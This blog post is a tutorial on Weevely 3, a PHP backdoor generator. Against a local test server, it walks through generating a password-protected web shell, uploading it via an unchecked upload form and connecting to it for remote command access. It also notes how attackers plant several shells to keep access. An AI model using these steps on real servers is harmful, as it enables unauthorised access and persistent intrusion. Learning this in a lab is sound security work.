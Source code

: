 ```yaml
---
author: Mansoor A
date: "2015-03-17T09:05:00Z"
description: ""
draft: false
title: Weevely 3 - The Tiny Yet Dangerous PHP Shell
url: blog/weevely-3-tiny-yet-dangerous-php-she
---
```



> DISCLAIMER: Whatever discussed here is for educational purposes and to protect yourselves from such attacks. I'm in no way responsible for whatever damage you cause to anyone or anything by following the things discussed here.


### Weevely?

Weevely is a php backdoor generator. One of the cool thing ( or should I say troubling thing - from a sysadmin's perspective ) about it is that, it is not detected by most of the malware scanners ( To be honest, I scanned such a shell using virus total, and none of them detected it as a malware )

This is a good thing for a cracker and it is a troubling thing for  a Sysadmin.

#### How does crackers use this backdoor to maintain access?

Here is the thing, you can use this shell to maintain access to an already hacked website, or you can use this to hack a website ( if it provides an option to upload files without checking what exactly is being uploaded ).

The crackers finds a way to upload a shell to your server and then BAM!. They have access to all your files. OR, a cracker hacks your site somehow ( bruteforce, social engineering, or whatever) and upload theses shells to various parts of your website, so that even if you found one of these shell and delete it, they can access your server using another one.


### How about a practical example?
Here, I will show you how it is done. Please note that I am doing this in a locally set up web server, but the principle is same for all the web servers. Also, please do this only on the sites you own, or in those you are allowed to perform such actions.


### The Setup

1. I have an Ubuntu server running on this IP: 192.168.1.102
2. There is WordPress installation, and also an upload form where you can upload files
3. I'm using Backbox Linux as the attacking machine. You can use any Linux machines for this purpose. Kali, Backtrack, Ubuntu, Mint or whatever it is that you're using.

#### Step 1: Installing Weevely 3 on your machine:
```shell
# Make sure that the python package manager and yaml libraries are installed
$ sudo apt-get install g++ python-pip libyaml-dev python-dev
# Install requirements
$ sudo pip install prettytable Mako pyaml dateutils --upgrade
```

Now, download  weevely 3 from <a href="https://github.com/epinna/weevely3/archive/master.zip" target="_blank">HERE</a><br /> You can find more information about Weevely 3 from the github page: <a href="https://github.com/epinna/weevely3" target="_blank">HERE</a>


We are all set. Now, unzip the package and open the terminal and change directory to the weevely3 directory.
If you are too lazy to do all that, copy and paste the following command in your terminal.


```shell
wget https://github.com/epinna/weevely3/archive/master.zip
unzip master.zip
cd weevely3-master
```



#### Step 2: Creating the backdoor
If you do an "ls" command inside the weevely directory, you could see all the files, and weevely.py is the python script that we will be executing

This is how you create a backdoor:


```shell
# This will show you all the options you got
$ ./weevely.py

# The following command will generate a backdoor 
$ ./weevely.py generate password backdoor.php

# The above command will create a backdoor named "backdoor.php" with a password "password"
```


Now we have our backdoor. The next step is to upload it to the web server.


#### Step 3: Getting things done - Uploading to the server

For this to work, you need a place where you can upload any files ( since you are testing it in your own workstation, that shouldn't be  a problem. 😉 )


 ![Php uploader](https://cdn.esc.sh/jekyll/posts/weevely/php_uploader.jpg)

Here, check it out. I have an upload form and I have uploaded the generated backdoor ( shell.php ) to the server using this upload form.

#### Step 4: Accessing the shell

Now we have a backdoor in a server. We need to access it right?

```shell
# This is how you access the uploaded shell
$ ./weevely http://the-website.tld/path/to/the/backdoor.php password

# of course you will have to replace the path with the actual path to the uploaded shell,
# and you have to provide the password you previously set when created the shell.

# So, In my example, I will access the shell using the following command

$ ./weevely http://192.168.1.102/wordpress/hackme/shell.php noob

# where "noob" is my password and 192.168.1.102/wordpress/hackme/shell.php is the
# location of the shell in the server.
```


As soon as you issue the above command, you will get access to a shell in the server.


 ![Shell](https://cdn.esc.sh/jekyll/posts/weevely/shell.jpg)


Type any command like "ls" and you can see that you are using the shell in the server. But, hey, remember one thing, you got a shell in the server, but you are not root ( yet ). You don't have administrative privileges, but you can manipulate the contents in the document root of apache, which is pretty nice.

 ![Shell](https://cdn.esc.sh/jekyll/posts/weevely/shell_1.jpg)


So, this is it. Hope you guys enjoyed this post. Keep one thing in mind, please don't do any of these on anything that you do not own. Thank you.!

